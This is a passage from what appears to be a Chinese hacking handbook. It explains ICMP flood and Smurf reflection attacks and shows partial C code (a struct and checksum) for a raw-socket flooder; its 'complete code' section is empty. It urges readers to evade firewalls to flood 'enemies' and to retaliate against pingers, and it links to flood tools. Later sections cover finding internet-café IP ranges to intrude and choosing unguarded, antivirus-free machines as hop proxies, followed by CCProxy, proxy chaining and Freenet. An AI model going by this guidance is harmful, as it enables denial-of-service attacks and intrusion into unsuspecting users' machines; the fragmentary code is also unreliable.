采取这种方式的第一个工具的名称来命名的“Smurf”洪水攻击，把隐蔽性又提高了一个档次。这种攻击模式里，最终淹没目标的洪水不是由攻击者发出的，也不是伪造 IP 发出的，而是正常通信的服务器发出的！

实现的原理也不算复杂。Smurf 方式把源 IP 设置为受害者 IP，然后向多台服务器发送 ICMP 报文（通常是 ECHO 请求），这些接收报文的服务器被报文欺骗，向受害者返回 ECHO 应答（Type=0），导致垃圾阻塞受害者的门口……

从示意图可以看出，它比上面两种方法多了一级路径——受骗的主机（称为“反射源”），所以，一个反射源是否有效或者效率低下，都会对 Flood 效果造成影响！

```text
伪造受害者的ICMP应答

攻击者[IP=211.97.54.3] -----------------> 正常的主机 -----------------> 受害者[截获攻击者IP=……]
```

以上是几种常见的 Flood 方式。在测试中，我发现一个有趣的现象：一些防火墙（如天网）只能拦截 ECHO 请求（Ping）的 ICMP 报文，对于其他 ICMP 报文一概睁只眼闭只眼，不知道其他防火墙有没有这个情况。所以，想神不知鬼不觉对付你的敌人时，请尽量避开直接 ECHO Flood，换用 Type=0 的 ECHO 应答或 Type=14 的时间戳应答较好。其他类型的 ICMP 报文没有详细测试过，大家可以试试看 Type=3、4、11 的特殊报文会不会有更大效果。

#### 六、ICMP Flood 能预防吗

先反问你一个问题：洪水汹涌冲来时，你能否拿着一个脸盆抵挡？

软件的网络防火墙能对付一些漏洞、溢出、OOB、IGMP 攻击，但是对于洪水类型的攻击，它们根本无能为力。我对此的解释通常是“倾倒垃圾”：有蟑螂或老鼠在你家门前逗留，你可以把它们赶走，但如果有人把一车垃圾倾倒在你家门口呢？

所以，洪水没法防！能做的只有提高自己的带宽和预防洪水的发生（虽然硬件防火墙和分流技术能做到，但那价格太昂贵，而且一般人也没必要这样做）。

如果你正在被攻击，最好的方法是抓取攻击者 IP（除非对方属第一种，否则抓了没用——假的 IP）后，立即下线换 IP！

#### 七、被 ICMP Flood 攻击的特征

### 1. 如何发现 ICMP Flood？

当你出现以下症状时，就要注意是否正被洪水攻击：

- 传输状态里，代表远程数据接收的计算机图标一直亮着，而你没有浏览网页或下载；
- 防火墙一直提示有人试图 Ping 你；
- 网络速度奇慢无比；
- 严重时，系统几乎失去响应，鼠标呈跳跃状行走。

如果出现这些情况，先不要慌张，冷静观察防火墙报警的频率及 IP，确认是否普通的 Ping 或是洪水，做出相应措施（其实大多数情况也只能换 IP 了）。

### 2. 普通 ping

这种“攻击”一般是对方扫描网络或用 ping -t 发起的，没多大杀伤力（这个时候，防火墙起的作用就是延迟攻击者的数据报发送间隔时间，请别关闭防火墙！否则后果是严重的），通常表现如下：

```text
[13:09:20] 61.151.252.106 尝试用Ping来探测本机，该操作被拒绝。
[13:09:20] 61.151.252.106 尝试用Ping来探测本机，该操作被拒绝。
[13:09:20] 61.151.252.106 尝试用Ping来探测本机，该操作被拒绝。
[13:09:20] 61.151.252.106 尝试用Ping来探测本机，该操作被拒绝。
```

不过速度很慢，很明显是由 ping.exe 或 IcmpSendEcho 发出的。如果对方一直不停地让你的防火墙吵闹，你可以给他一个真正的 ICMP Flood 问候。

##### 3. 直接 Flood

这是比较够劲的真正意义的洪水了，防火墙的报警密度会提高一个数量级：

```text
[13:09:20] 61.151.252.106 尝试用Ping来探测本机，该操作被拒绝。
[13:09:20] 61.151.252.106 尝试用Ping来探测本机，该操作被拒绝。
........................................
```

这时候你的防火墙实际上已经废了，换个 IP 吧。

##### 4. 伪造 IP 的 Flood

比较厉害的 ICMP Flood 使用的是伪造的 IP，而且一样大密度。下面是 the0crat 用 56K 拨号对我的一次攻击测试的部分数据（看看时间，真晕了，这可是 56K 小猫而已啊）：

```text
[18:52:12] 1.1.1.1 尝试用Ping来探测本机，该操作被拒绝。
[18:52:12] 1.1.1.1 尝试用Ping来探测本机，该操作被拒绝。
.................................................
```

##### 5. 反射 ICMP Flood

估计现在 Smurf 攻击还没有多少人会用（R-Series 的 RSS.EXE 就是做这事的，RSA.EXE 和 RSC.EXE 分别用作 SYN 反射和 UDP 反射），所以这种方法还没有大规模出现，但 Smurf 是存在的，而且这个攻击方法比前面几种更恐怖，因为攻击你的是大网站（或一些受害受难的服务器）！

我正在被网易、万网和新浪网站攻击中（懒得修改天网策略，直接用其他工具抓的。实际攻击中，反射的 IP 会多几倍）：

```text
[15:26:32] RECV ICMP Packet from 210.192.103.30 (Type=0, Code=0, Len=52)
[15:26:32] RECV ICMP Packet from 210.192.103.30 (Type=0, Code=0, Len=52)
[15:26:32] RECV ICMP Packet from 202.108.36.206 (Type=0, Code=0, Len=52)
[15:26:32] RECV ICMP Packet from 202.108.37.36 (Type=0, Code=0, Len=52)
[15:26:32] RECV ICMP Packet from 210.192.103.30 (Type=0, Code=0, Len=52)
[15:26:32] RECV ICMP Packet from 202.108.36.206 (Type=0, Code=0, Len=52)
[15:26:33] RECV ICMP Packet from 202.108.36.206 (Type=0, Code=0, Len=52)
[15:26:33] RECV ICMP Packet from 202.108.37.36 (Type=0, Code=0, Len=52)
[15:26:33] RECV ICMP Packet from 202.108.36.206 (Type=0, Code=0, Len=52)
[15:26:33] RECV ICMP Packet from 202.108.37.36 (Type=0, Code=0, Len=52)
[15:26:33] RECV ICMP Packet from 202.108.36.206 (Type=0, Code=0, Len=52)
```

可以看出，攻击者使用的是 32 bytes 的 ECHO 请求，所以服务器返回 52-20=32 bytes 的 REPLY 报文。在这个情况下，天网是不会报警的。还是那句话，报警也没用了。

#### 八、自己编写 ICMP Flooder

以上说的都是理论，如何才能自己写一个呢？相信很多人已经跃跃欲试了。下面就用 VC6.0 来写一个直接的 ICMP Flooder（能在 Windows 98/Me 环境使用）……先等等——最重要的是原理。

##### 1. 程序原理

当然不能用 IcmpSendEcho 来做，我们必须自己从最原始的 IP 报文里做一个。构造一个 SOCK_RAW 报文后，填充 ICMP 数据，计算校验和（CheckSum），循环 sendto 发出去就完成了。

##### 2. ICMP 报文的声明

一个 ICMP 报文包括 IP 头部、ICMP 头部和 ICMP 报文。用 IPPROTO_ICMP 创建这个类型的 IP 包，用以下结构填充：

```c
typedef struct _ihdr
{
    BYTE i_type;      // 8位类型
    BYTE i_code;      // 8位代码
    USHORT i_cksum;   // 16位校验和
    USHORT i_id;      // 识别号
    USHORT i_seq;     // 报文序列号
    ULONG timestamp;  // 时间戳
} ICMP_HEADER;
```

这样，我们就声明了一个 ICMP 报文结构，就等后面的填充了。

##### 3. 校验和

计算方法：先设置头校验和域的数值为 0，然后对整个数据报头按每 16 位求和，再把结果取反，就得到了校验和。

函数：

```c
USHORT checksum(USHORT *buffer, int size)
{
    unsigned long cksum = 0;
    while(size > 1)
    {
        cksum += *buffer++;
        size -= sizeof(USHORT);
    }
    if(size)
    {
        cksum += *(UCHAR*)buffer;
    }
    cksum = (cksum >> 16) + (cksum & 0xffff);
    cksum += (cksum >> 16);
    return (USHORT)(~cksum);
}
```

##### 4. 必须注意的问题

由于 Win98/Me 系统不支持 IP-Spoof，所以无法用 setsockopt 设置 IP_HDRINCL 让用户自己填充 IP 头部，所以 Win98/Me 不能实现 IP 伪造！如果有人做的号称能够伪造 IP 的工具而且又支持 Win98/Me，那一定是吹出来的，因为这是系统限制，程序没法解决。自己填充 IP 头部后，CheckSum 就不是由系统计算了，这时候你的 CheckSum 计算函数就变成瓶颈了，这就是伪造 IP 后的 Flooder 发送速度不如系统计算 CheckSum 的 Flooder 快的原因了，除非优化过 CheckSum 函数。限于篇幅，采用 IP-Spoof 技术的 FakePing 和 Smurf 就不讨论了。

##### 5. 完整代码

做一个 Console Application 工程，输入下面的代码。如果优化得当，最终编译生成的 EXE 也就 4096 字节而已。


#### 九、几个 ICMP Flood 工具

- AnCryPing（上面代码的完成品，直接 Flood）  
  下载地址：http://www.heibai.net/download/show.php?id=3002
- R-Series（包括 ACK-Flood、Smurf、Chargen）  
  下载地址：http://www.heibai.net/download/show.php?id=2970
- pingflood（伪造 IP 的 Flood，号称支持 Win98/Me？没测试过，理论上不可信）  
  下载地址：http://www.hacker.com.cn/down/soft.asp?id=127
- FakePing（伪造 IP 的 Flood）  
  下载地址：http://www.hacker.com.cn/down/soft.asp?id=41

#### 十、小结

本文的意图并不是教人去搞 Flood，毕竟一把枪拿在不同人的手里，发挥的作用也不相同。不过，尽管给小孩子玩枪是危险的，但每个人都是从小孩子成长起来的，最重要的是能否学好技术，而不是整天拿别人的工具去做无聊事。玩一个工具或 Exploit 不应该是迷迷糊糊地去模仿，自己知道原理才是真正的学习。

ICMP 原始报文格式

| IP头部 |
|---|
| 类型 |
| 代码 |
| 校验和 |
| 信息 |

ECHO 请求和应答报文格式（Type=8、0）

| 类型 | 代码 | 校验和 |
|---|---|---|
| 标识符 |  | 序号 |
| 数据 |  |  |

时间戳和应答报文格式（Type=13、14）

| 类型 | 代码 | 校验和 |
|---|---|---|
| 标识符 |  | 序号 |
| 原始时间戳 |  |  |
| 接收时间戳 |  |  |
| 传输时间戳 |  |  |

目标不可到达、源抑制和超时报文格式（Type=3、4、11）

| 类型 | 代码 | 校验和 |
|---|---|---|
| 保留 |  |  |
| Internet头 + 64位原始数据报数据 |  |  |

## 第6章 代理服务也疯狂

### 6.1 菜鸟也谈隐藏IP

隐藏IP地址已经是个老生常谈的话题了，不少地方都有详细的说明文章，但看来看去感觉都不太适合我们菜鸟，因为许多文章都是讲用肉鸡去做跳板，相信大多数的人还没有一个属于自己的肉鸡。或许对于我们菜鸟来讲，用Proxy Server是最简单的方法了，可是Proxy Server好找吗？即使找到了还要自己一个一个地去ping。那么，菜鸟们只能冒着暴露IP的危险心惊肉跳地去上网吗？答案当然是No。

今天，我就给大家介绍一款帮你找Proxy Server的好工具：QQ代理公布器XP。如图6-1-1所示：QQ代理公布器是金狐、静水无痕两位大师的杰作，它的界面非常简单，如果我们要用代理上QQ之类就在代理类型里选SOCK5，如果要浏览网页就选HTTP；为了能知道代理服务器的速度，我们可以在“是否测试代理”前打钩。点击读数据就能看到代理服务器的IP了。如图6-1-2所示：


图6-1-1

图6-1-2

注意：读数据时请关闭防火墙或调低安全级别，否则会因为超时造成程序停止响应。关于如何设置代理，这里就不多说了，大家可以看看前几期的文章。其实，QQ代理公布器的功能不仅仅只有这一个，它还有另外3大用途：

- 查询地区的IP范围
- 查询IP所在的地区
- ping

其中我最喜欢的就是第一个功能，如果我们想入侵一家网吧，那么只要选择地区=>IP，在弹出的窗口“输入地区”一栏里填入“网吧”，哈哈，数据像瀑布一样往下流（图6-1-3）。怎么样，这款工具还不错吧，那还等什么，快去下一个吧。它的下载地址是：http://mangui.com/qqproxy/qqproxy.rar。


图6-1-3

### 6.2 IP代理自己找

对于普通电脑玩家来说，隐藏IP是为了防止被攻击防御，有的是为了玩，或者是欺骗，像QQ用代理就可以骗人，而对于黑客们来说，防御则是一场黑客实战中的重头戏，首先要保护好自己，否则很有可能受到长期而且持续的反入侵或者反攻击。一般来说，没有什么有效的方法来隐藏自己的IP，只有通过间接的方法来做到IP的隐藏，而这种间接的方法，最常用的就是使用代理服务器（Proxy Server）来进行IP代理。

代理服务器是Internet链路级网关所提供的一种重要的安全功能，它的工作主要在开放系统互联（OSI）模型的对话层，从而起到防火墙的作用。代理服务器也有速度快慢之分，也有HTTP及Sock之分。一般来说，大多数浏览器都可以支持HTTP、Sock等几种代理服务。

可是，代理IP怎么找呢？接下来我们一一介绍：

#### 一、使用代理猎手

有许多的软件可以找代理IP，比如“代理猎手”，首先让我们看看代理猎手是怎么使用的。首先添加任务，第二步选择搜索范围，然后下一步添加扫描地址，在IP地址起始栏中填入IP的起始地址，将这段IP添加到扫描范围中（图6-2-1）。

然后我们再来添加端口及协议，一般默认端口：HTTP是80、3128、8080；Socks是1080、1813。这里我们只是扫HTTP代理服务，所以这里我们也输入8080，在要找的服务器类型里我们先选择HTTP服务，将必搜选项前打钩（图6-2-2）。按下“完成”按钮会回到主界面，然后开始搜索，在搜索任务里会显示正在扫描的地址（图6-2-3）。扫描完成后再选择“搜索结果”标签页，在这里可以查看扫描后的结果，这时在验证状态中出现“要密码”及“不符合协议”、“不匹配”的地址通常都不可用。显示Free表示可使用，将该IP抄下来或是在IP地址上单击鼠标右键选择“加入调度”（图6-2-4）。


图6-2-1

图6-2-2


此时可以对这些IP地址加以验证，也可以在“代理调度”标签中进行验证，当在验证状态中看到Free字样，则这些选用的服务器都是可用的。

#### 二、使用QQ代理公布器来查找代理

此软件下载后就可以看到非常简洁的界面（图6-2-5），它是一款从网络上提取代理IP的软件，其使用方法非常简单，所以笔者不在此介绍。另外，还有一些代理地址查询的网站。


代理地址查询：

- http://www.lk52.com/ip/
- http://ip.loveroot.com/index.php
- http://www8.big.or.jp/~000/CyberSyndrome/
- http://www.proxymania.com/page1.html
- http://e786.com/ip

但是，由于代理服务器的IP地址有时候会更换，而有时候网上公布的IP代理资源可信度比较低，那么如何创建自己所需要的代理（或是Sock5跳板）呢？

第一步，我们得明确用来作为代理或是跳板的电脑，一般都得具备以下的条件：

- 最好24小时都与网络保持连接；
- 使用固定IP；
- 使用宽带上网；
- 没有网络管理人员在管理，最好是网络安全知识不足的一般上网个人用户；
- 没有使用任何杀毒软件与防火墙程序；
- 操作系统是WinNT、Win2K或是WinXP的电脑；
- 系统一般不会记进任何网络连接记录。

其实说了这么多，一般能满足上述条件的电脑无非主要就是个人电脑（比如个人架设的网站或服务器，或一般的小公司对外连接的主机），还有各种网站或FTP服务器。虽说这两种都有其缺点，但是这世界上十全十美的事是没有的，所以就按以上的说明找一些合适的吧！

### 6.3 图解代理服务器软件——CCProxy

把很多台计算机连成局域网，然后再把其中的一台计算机连上Internet，然后这个局域网中的每一台计算机都可以以这台连上网的机器为出口，通过这台机器连上Internet。以上这些可能是网络时代中网络应用的最普遍的一种上网方式。但实现这个方案还得要通过一些软件的支持。可以提供这种服务的软件很多，最主要的有：可以通过Microsoft Windows系统直接支持，还有可以通过代理服务器软件来实现。本人以前对代理服务器的软件存在一定的偏见，认为它根本不值一提，甚至是一种无能的表现。但最近我在工作中的一次经历让我从根本上改变了对代理服务器软件的看法；我觉得这次经历对我很有帮助，我也想告诉大家，希望和我一样对代理服务器软件有偏见的朋友早早地改变自己的看法。在这，我不得不说代理服务器软件方便了我们的上网过程，给局域网共享上网开辟了一片新天地。

我的经历是这样的：我最近找到一份工作，在一个IT公司上班，刚刚上班就接到了一个任务，公司的网络状况不太好要我调整一下。我很自信地接下了这个工作。但经过我的测试、分析，结果却并不乐观。网络状况基本可以概括为：公司内部局域网是一个星型拓扑结构的网络，由一台服务器连上Internet，这台服务器通过双网卡做成路由器，再进交换机，每台工作站的机器都连到交换机上。局域网工作正常，服务器连接Internet正常，没有任何问题，但到每一台工作站的机器就出现问题了。问题是每一台工作站的机器在上Internet的时候，都有很多站点访问不了，只有少数的站点，比如：驱动之家等少数站点可以打开。每台工作站的机器上QQ使用没有任何问题。监测了工作站机器的上网速度也不慢，排除了因为网速过慢而导致网页无法打开的情况。虽说我是学网络的，但以前从没有见过这种情况。

通过在网上的查找，我了解到现在主流的代理服务器软件有：WinGate、SyGate、亿特；还有我最后选用并深深体会代理服务器的优秀品质的CCProxy。

下载和安装CCProxy都很顺利，由于网上下载的是试用版，只有三个用户，所以我选用了三个工作站和服务器一起进行测试，以便了解它的工作情况，看它是否能解决我们公司网络中的问题。服务器端的设置使用默认的设置方式，然后对客户端进行简单的设置，客户端很轻松地就连上了Internet。太好了！我有点儿喜出望外。看看其他的功能，只需进行简单的设置，好像所有的功能都可以使用。而且，更令我高兴的是，CCProxy还提供了一些很实用的功能，方便了管理工作。比如，流量统计，还有控制某台机器不能上网，屏蔽某些站点等，对于我来说这就是意外之喜，我开始并没有对代理软件抱太大的希望，真没想到它会把共享上网及其管理工作简化得如此简单、方便。之后，我在CCProxy的主页上注册了我们的账号，CCProxy代理服务器软件成为了正式版，不限制用户数量。不到一个小时，我就把公司内的所有机器都代理上网。

下面我就向大家正式地介绍一下CCProxy。

代理服务器CCProxy于1999年6月问世，经过几年的发展，目前的最新版本是5.3（可以从它的主页——遥志软件 http://www.youngzsoft.com/cn/ccproxy/ 下载）。它的开发目的是，只要局域网内有一台机器能够上网，其他机器就可以通过这台机器上安装的CCProxy来共享上网，最大程度地减少了硬件费用和上网费用。能够做到通过CCProxy可以浏览网页、下载文件、收发电子邮件、QQ联络等，网页缓冲功能还能提高网页浏览速度。CCProxy在实现共享上网的同时，还提供了强大的管理功能。

要使用CCProxy，首先要做的就是下载它的安装程序，下载地址是：http://www.youngzsoft.com/download/ccproxysetup.exe。现在的最新版本CCProxy 5.3的安装文件只有805k，下载完毕，运行它就可以了。安装过程很简单，询问是否要安装CCProxy代理服务器软件，确定安装路径，询问是否要在桌面和快捷菜单里建立快捷方式，最后安装成功。以后可以直接运行CCProxy。还有一点也要注意，就是为了能使客户机通过代理服务器上网，必须要保证客户机和服务器的通讯正常，这样才能进行代理服务。不要以为这一点不重要，我看到好多网友有关使用代理服务器客户机不能上网的问题，都是出在这个环节上，所以我们不能因为它简单从而忽视了它，毕竟“先硬后软”是排除故障的主要原则。

进入CCProxy的主界面（图6-3-1），界面友好，主要功能也很直观，都显示在功能区中。直接点击功能区的按钮会执行相应的功能，下面的绿色网格则显示了目前的网络流量。双击这个绿色网格，还会出现实时显示客户端连接信息（图6-3-2）。下面对具体功能进行一下介绍。


图6-3-1

图6-3-2

第一、二个按钮图标分别是“启动”和“停止”，它们相应的功能也很好理解，就是启动或者停止CCProxy的代理服务。每次运行CCProxy的时候，它的代理服务功能总是默认启动的，我们无需在启动CCProxy以后，再开启它的代理服务功能。

第三个按钮是“设置”（图6-3-3），在这里我们可以对CCProxy的代理服务进行设置，选择我们需要的代理服务及其相应的代理端口，还有一些基本功能，如网页缓存、自动启动、自动隐藏，在实际使用当中都是很有用的。

默认的代理端口列表及主要用途：

| 协议/服务 | 默认端口 | 主要用途 |
|---|---:|---|
| HTTP | 808 | 用于浏览器上网 |
| FTP (Web) | 808 | 用于浏览器连接FTP站点 |
| FTP | 2121 | 用于和FTP客户端软件连接FTP站点（如CuteFTP） |
| Gopher | 808 | 用于浏览器连接Gopher站点 |
| Secure/SSL/HTTPS | 808 | 用于浏览器连接安全站点 |
| RTSP | 808 | 用于RealPlayer |
| SOCKS | 1080 | 用于部分网络客户端软件（如QQ、联众） |
| MMS | 1080 | 用于Media Player |
| News（NNTP） | 119 | 用于Outlook连接新闻服务器 |
| SMTP | 25 | 用于邮件客户端软件发送邮件（如Outlook、Foxmail） |
| POP3 | 110 | 用于邮件客户端软件接收邮件（如Outlook、Foxmail） |
| Telnet | 23 | 用于某些Telnet客户端软件（如Cterm） |

还有一点需要注意，就是如果你选择了“DNS”，而且你的系统又是Windows 2000的话，可能会出现启动CCProxy代理服务时报错的问题（图6-3-4）。这没有关系，这是因为Windows 2000自己已经有了DNS服务，所以CCProxy的DNS服务与Windows 2000的DNS服务冲突了。把CCProxy的DNS服务关掉就好了，即使不关，开着DNS服务，系统报错也不会影响使用。这个问题在其他Windows系统不会出现。


图6-3-3

图6-3-4

在“设置”窗口中有一个“高级”按钮，点击打开一个新的窗口（图6-3-5）。在这里可以对CCProxy的代理服务进行特殊功能的设置。其中包括拨号、缓存、二级代理、日志、邮件和其他。这些设置可以帮助我们更好地使用CCProxy，但如果设置不当可能会引起CCProxy工作不正常，甚至不能工作，建议对代理服务和CCProxy不是很了解的朋友慎用。

在CCProxy主窗口功能区的第4个按钮是“账户”（图6-3-6），它的作用是对客户端的代理服务请求进行管理，可以根据IP地址、MAC地址、用户名+密码等验证方式来决定是否对客户端机器提供代理上网服务，而且可以对目前的访问量进行统计。在这里还有一个很突出的功能，就是对时间和网站控制初始化设置。利用这个功能，我们可以限制客户端登录某些站点，而且可以限制允许客户端代理上网的时间段，超出了规定的时间段则不可以使用CCProxy的代理服务上网。这个功能方便了网管的工作，在企业里是使用率很高的。


图6-3-5

图6-3-6

第五个按钮是“注册”（图6-3-7），主要功能就是对试用版的CCProxy进行注册。注册好的CCProxy注册窗口就不需要再填入相关的信息了（图6-3-8）。


图6-3-7

图6-3-8

这里有一点需要注意，网上现在有很多针对CCProxy的注册机，但到目前为止我还没有发现一个可以真正注册CCProxy的。用网上下载的注册机生成的序列号可以在表面上注册成功，“注册”窗口也好像图8一样显示注册成功，标题栏也不再有“用户、演示版”的提示，一切都好像真的注册成功了一样。但事实并非如此，当在局域网中使用CCProxy的时候，我们不难发现，CCProxy还是只能对3台客户机进行代理服务，跟演示版的功能一样。我曾经好长一段时间想不通这个问题，最后还是请教了作者才得知，CCProxy已经从去年开始实行网上注册了，网上的那些注册机根本就没有作用。希望大家了解这一点，不要再浪费宝贵的时间进行那些无谓的工作。

另外，CCProxy还开发了大量针对网络管理员的高级功能，下面的介绍主要是关于高级功能的说明和对应的参数设置，建议使用插件CCSetPro和CCReport（网站主页上下载）来设置高级功能。CCSetPro和CCReport提供了高级参数的可视化设置。所有参数在修改保存后，都需要重新启动CCProxy。

对于高级管理人员，只要了解CCProxy的安装程序结构，可以自定义完美的CCProxy代理服务器配置，甚至不需要使用setup安装。若没有特别需要，只需拷贝 ccproxy.exe、CCProxy.ini、AccInfo.ini、CDial.dll、uuid.dll 5个文件到任一目录即可完全运行。若需要中文及其他语言支持，只需再在当前安装目录下建立一个Language的子目录，并将相应的几个语言配置文件拷贝过去即可，Smtp、Log两个子目录会自动建立。

高级管理功能在这里就不多介绍了，有兴趣的朋友可以到网站的主页上下载说明文件（下载地址：http://www.ccproxy.com/ccproxyhelp.zip）。

以上就是帮助我很快完成第一项工作任务的代理服务器软件——CCProxy。通过我的使用，增进了我对它的了解。我觉得它真的是一款出色的代理服务器软件，操作简单、功能强大，甚至可以通过高级管理功能打造出属于自己的CCProxy。

说到这里，我不能不说的一点，也就是在CCProxy的使用过程中总结出来的一点点遗憾。因为它是代理服务器软件，所以它就必然会占用一些端口，比如邮件服务的25（SMTP）和110（POP3）。而如今很多杀毒软件都会对邮件进行随时的监控，也会监视这些端口。这样一来，CCProxy和杀毒软件就会发生冲突，我们因为工作的需要往往只好忍痛割爱，关掉其中的一种。为了代理服务而让服务器赤身裸露地暴露在病毒横行的Internet中，实在是太危险了。希望CCProxy的制造商遥志软件公司能够在下一个版本中解决这个瓶颈问题，也希望大家和我一起支持CCProxy，支持国产软件，为我们的民族产业尽一份力。

### 6.4 通向网络自由之路

相当多的时候，我们远离喧嚣而乏味的生活，在网络世界的舞台上按自己的意愿尽情表演，精神上的自由是前所未有的。但是，由于公司不希望员工浪费过多的时间聊天，或者计算机和网络安全的因素以及其他原因，我们经常会遇见ICQ不能使用，.exe、.rar和.zip等后缀的文件不能下载，很多站点受限制，不能浏览等问题。这样会使像我这样的人很不舒服，这种不舒服的程度仅次于停电时候的感觉。下面讨论的就是这个问题，通过介绍几个工具的使用，快速进入通向网络自由之路。

#### 代理跳板+SocksCap

- 一、跳板的特点：

a. 从本地机器连接到远程机器，中间通过安装的代理跳板。对应用程序而言，相当于普通的sock代理调用。  
b. 在跳板之间传输的数据，已经被动态加密。加密密钥每次不同。  
c. 跳板的数目由1到255，不限制；当数目为0时，相当于Sock5代理服务器。

代理跳板功能示意如图6-4-1。


图6-4-1

虽然我们只用SkServerGUI.exe这一个程序就可以使用跳板了，但从图6-4-1可以看出，你与第一个外部跳板之间的传输机制采用的是socks5，虽然进出数据有一定程度的加密，却会被有心人用一些嗅探程序探测到你所访问的URL甚至访问内容。所以要想做到真正安全，我们必须在自己的系统上安装跳板作为第一级跳板（否则，要想加密URL只有通过二次代理网站了，但这样加密的也只是目标URL，还是可以知道你访问了二次代理网站），这样，你与第一级跳板的传输是在本机进行的。别说是socks5，就算是完全透明，由于数据在本机的两个程序间传输，那些截获网络数据流的家伙也无可奈何。请注意，要想在本机安装跳板，你的系统必须是Windows 2000、Windows NT或Windows XP。

- 二、安装使用代理跳板

- 1、下载完整的跳板：完整的跳板程序包括skserver.exe（这是程序文件，以服务方式运行后，不显示任何窗口）和SkServerGUI.exe（配置文件，代理跳板GUI版本）。

- 2、在本机安装跳板：将skserver.exe安装到C盘根目录（当然你可以安装到其他目录，但方便起见，建议安装到C盘根目录）。开一个DOS窗口或在运行窗口运行下面的命令：

```bash
c:\skserver --install
c:\skserver --config port 1122
c:\skserver --config starttype 2
net start skserver
```

- 3、配置SkServerGUI.exe：打开它，点击“配置—客户端”，IP填127.0.0.1，掩码填255.255.255.255，“允许”打上钩。按下“增加”，这样就设置了客户端只能通过127.0.0.1这一个IP地址连到本机连接（你也可以添加上你朋友的IP地址，让他也可以通过你机子上的代理跳板突破封锁，而且也是加密URL的哦）。

子就成为一台公共代理服务器了。如图6-4-2。


图6-4-2

经过的SkSockServer：首先填上你在本机安装的跳板，即127.0.0.1端口1122，“允许”打上钩，然后“增加”，如图6-4-3。然后再依此方法填上你掌握的其他代理跳板（最好是自己做的，别人给的跳板是不是也被有关部门监控了？如果是在公开场合找到的跳板，那更容易被监控，也容易对此跳板IP封锁）。注意：如果你填上了超过1个IP地址，SkSockServer可以自动把这多个代理（串联）起来，最多可以填写255个。考虑到速度，建议有一二个外部跳板就可以了（我用了三个进行测试，速度还是比一般通过HTTPS代理访问快很多）。通过“上移”“下移”按钮可以改变串联代理的次序。如果因为某些原因你现在不想用某个跳板，还可以选中这个跳板，然后清除“允许”，按下“更改”。


图6-4-3

- 5、运行选项：设置本地代理端口为你希望的端口。建议用缺省值1913。反正只有你自己的机器可以连上来，没有特殊原因不必改。“允许作为sock5代理”也要打钩。见图6-4-4。


图6-4-4

配置完成SkSockServer GUI记得保存设置，下次打开程序时就不用重新配置了，点击命令——停止，再点击开始。

- 6、下载并安装SkSockServer GUI的接口程序SocksCap V2：点击文件—配置，选中socks5，代理栏填127.0.0.1，端口1913（与SkServerGUI.exe的运行选项的端口设置一致）。见图6-4-5。

怎样将应用程序在SocksCap中打开呢？点击主窗口的新建—浏览，找到应用程序，这里选择IE，见图6-4-6。


确定后，它就出现在SocksCap的窗口中了。你还可以添加其他应用程序，如QQ、OE等，见图6-4-7。


- 7、应用：双击SocksCap窗口中的IE，打开它浏览就可以了，你可以自由访问任何一个网站而不必担心有人来找麻烦。这时，你可以看到SkServerGUI窗口中目的地址显示的是你安装在本机上的跳板127.0.0.1，也就是说，你浏览的是本机内容，一个人浏览自己电脑中的内容谁能管得着呢！这点和自由网（稍后介绍）有异曲同工之妙。在目标主机显示的是你在SkServerGUI中设置的最下方激活的跳板。

网络上很多爱好自由的人士在向大家免费提供跳板，和黑客不同的是，他们并不对别人的主机进行破坏，只是安装跳板方便大家。当然你也可以自己做，但需要一定的入侵知识，可以参考其他文章。跳板可以当做socks5使用，socks5却不能当做跳板来使用。需要指出的是：跳板的种类很多，但snake的代理跳板最为著名，也容易掌握，我们通常所指的就是snake的跳板。跳板在传输过程中是加密的，别人即使截获了你的数据也无法解密。由于数据在进入被安装了跳板服务的主机时，要在里面解密以便进行下一步传输，所以选择一个可靠的跳板服务器就尤为重要。在网上公布出来的跳板都有被监控的可能，只有自己做的不公布的跳板才最安全。用别人公布的跳板最好再用其他方法加密，如先访问提供SSL的二次Web代理网站。

或者你可以让国外的朋友在他的电脑上安装跳板服务器，定时开机或约好时间开机，他将他的上网IP通过电子邮件、手机短讯等告诉你，你通过这个跳板访问。由于是动态IP，所以是最安全的，也是永不可封锁的。

## 自由网（freenet）

### 一、自由网介绍（图6-4-8）


图6-4-8

- 1. 自由网（freenet）是一个正在开发完善的免费公开软件。一般的PC或UNIX电脑只要支持Java都能运行，其开发宗旨是为了保障言论自由、突破网上信息封锁。在目前的形势下，自由网可以让广大读者有效地避开某些网络的监控，同时有效地对文章的作者和读者的身份进行保密。

- 2. 自由网和WWW（World Wide Web）的区别

自由网和WWW都是在互联网上运行，只是软件的结构不同。WWW采用的是中心服务器和边缘客户端的结构（Client/Server），所有资料集中在服务器上，客户从服务器上调资料。存在的问题是：一旦服务器发生故障，客户便失去联系。所以黑客集中攻击服务器，某些网络ISP也阻挡服务器。

而自由网不同，它不采用中心和边缘的结构，而是采用对称（P2P，或Peer-To-Peer）的结构。网络的所有参与者，人人都是服务器，同时又是用户。它有成百上千的用户，也就有成百上千的服务器；用户越多的地方，信息也自然越流畅，因为那里的用户及服务器就像滚雪球一样增加。

自由网很重要的一个优点是，所有资料都是加密传输、分散存放的，而且多次存放，具体一份资料的位置是无人知晓的。而且它们的网址（IP address）和终端口（Port）是不断变化着的，所以要阻挡一个资料在自由网上的传播是不容易的。这是自由网优越于Napster、Publius、Safeweb等机制的独特之处，因而这种方法能让资料绕开网上屏蔽的阻挡，到达读者的手中。另外，自由网的Java源程序及设计完全公开（类似于Linux），有成千上万的热心网迷和专家高手支持。自由网还提供一个叫自由关的接口软件（FPROXY Gateway），读者用IE或Netscape即可方便地浏览自由网。随着普及，自由网可成为网上自由信息的汪洋大海，势不可挡。

- 3. 安全性

自由网内部采用高级加密机制，传输的信息第三者无法知晓（与已普及的PGP和HTTPS类似）。读者索取文件时需要知道作者的公共钥匙（相当于WWW互联的网址），而作者加入文件时需要用自己的私人密钥，这样就能有力地保护文章和作者的真实性，防止第三者设法加入假资料。

公共钥匙是文件真实性的唯一保证。虽然仿制或破译私人密钥十分困难，但私人密钥被盗或使用者被诱骗用假的公共钥匙是可能的，所以，使用者一定要证实公共钥匙的真实性。自由网上自由新闻目前的公共钥匙是：

freenet:MSK@SSK@NLgvvGUTGnwgEN9jKEeC3G6jhEEQAgE/freenews//。但你若用FPROXY，你需要在IE或Netscape中输入以下地址：

http://localhost:8081/freenet:MSK@SSK@NLgvvGUTGnwgEN9jKEeC3G6jhEEQAgE/freenews//。

